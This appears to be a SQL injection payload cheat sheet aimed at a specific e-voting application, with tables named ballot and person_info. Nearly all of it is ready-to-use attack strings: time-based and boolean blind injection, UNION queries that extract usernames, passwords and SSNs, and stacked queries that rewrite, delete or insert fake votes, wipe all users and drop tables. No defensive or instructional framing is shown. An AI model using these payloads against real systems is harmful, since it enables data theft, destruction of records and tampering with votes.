 ### Blind SQL Injection
```sql
-- Time-based
admin' AND (SELECT SLEEP(5))--
admin' AND IF(1=1, SLEEP(5), 0)--
admin' AND (SELECT * FROM (SELECT(SLEEP(5)))x)--

-- Boolean-based
admin' AND SUBSTRING((SELECT Password FROM person_info LIMIT 1),1,1)='a'--
admin' AND ASCII(SUBSTRING((SELECT Password FROM person_info LIMIT 1),1,1))>97--

-- Check if database exists
' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema='evoting')>0--

-- Check if table exists
' AND (SELECT COUNT(*) FROM ballot)>0--

-- Extract data character by character
' AND ASCII(SUBSTRING((SELECT Password FROM person_info WHERE Username='Admin187'),1,1))=112--
```

### Voting Manipulation
```sql
-- In president field
'; UPDATE ballot SET President_Selection='HACKED' WHERE 1=1--

-- Delete all votes
'; DELETE FROM ballot WHERE 1=1--

-- Delete specific party votes
'; DELETE FROM ballot WHERE Party_id=100--

-- Insert fake votes
'; INSERT INTO ballot VALUES (9999,50001,200,'2016',11,1,'FakeCandidate')--

-- In StateNum field
1' UNION SELECT Username,Password,SSN,1 FROM person_info--
```

### User Deletion Exploits
```sql
-- In CitizenNum field
1 OR 1=1  -- Deletes ALL users

-- Extract before delete
1 UNION SELECT Username,Password,SSN,1 FROM person_info--

-- Selective deletion
1 OR CitizenNum IN (SELECT CitizenNum FROM person_info WHERE Username LIKE 'admin%')

-- Drop table
1; DROP TABLE person_info--
```

---